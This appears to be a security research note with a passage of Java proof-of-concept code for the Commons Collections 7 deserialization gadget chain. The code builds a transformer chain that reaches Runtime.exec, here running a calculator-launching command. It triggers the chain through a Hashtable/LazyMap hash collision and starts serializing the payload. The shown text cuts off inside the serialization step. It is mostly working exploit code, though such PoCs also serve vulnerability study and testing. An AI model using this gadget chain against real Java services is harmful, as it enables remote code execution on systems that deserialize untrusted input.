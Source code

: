 ## POC

```java
package CommonsCollections7;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 6:40 下午
 */
public class CommonsCollections7Gadget {

    public static void CC7() throws NoSuchFieldException, IllegalAccessException {
        Transformer[] faketransformer = new Transformer[]{};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(faketransformer);

        Map hashMap1 = new HashMap();
        Map hashMap2 = new HashMap();

        Map map1 = LazyMap.decorate(hashMap1, chainedTransformer);
        map1.put("yy", 1);
        Map map2 = LazyMap.decorate(hashMap2, chainedTransformer);
        map2.put("zZ", 1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(map1, 1);
        hashtable.put(map2, 1);
        Class _class = chainedTransformer.getClass();
        Field field = _class.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chainedTransformer, transformers);
        map2.remove("yy");

        try {
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(hashtable);
            objectOutputStream.close();

```